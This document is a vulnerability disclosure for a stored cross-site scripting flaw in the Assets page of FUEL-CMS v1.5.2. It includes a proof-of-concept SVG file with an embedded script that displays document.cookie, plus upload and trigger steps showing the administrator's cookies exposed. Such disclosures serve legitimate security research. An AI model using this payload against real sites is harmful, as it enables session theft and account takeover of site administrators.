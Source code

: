 # Stored XSS vulnerability in FUEL-CMS v1.5.2 of the page Assets

**vender**:

- [daylightstudio/FUEL-CMS: A CodeIgniter Content Management System](https://github.com/daylightstudio/FUEL-CMS)

**SoftLink**:

- [Release 1.5.2 · daylightstudio/FUEL-CMS](https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.5.2)

**Vulnerable Page**

- Assets

**Version**

- v 1.5.2

### POC 

Save the following content as `testxss.svg`:

```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <!-- Red triangle displaying user's cookie info -->
  <polygon id="cookie-alert" points="0,0 0,50 50,0" fill="#cc0000" stroke="#660000"/>
  <script type="text/javascript">
    alert(document.cookie);
  </script>
</svg>
```

1. Click **Assets**, upload `testxss.svg`, select **Images** (or any other category), and click **Upload**.

![image-20250818211523178](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508290146246.png)

The upload succeeds.

![image-20250818211413927](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508290146160.png)

When you visit `http://ip:port/assets/images/testxss.svg`:

![image-20250818212100795](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508290146192.png)

The administrator’s cookies are displayed in the alert dialog.

![image-20250818211827376](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508182118520.png)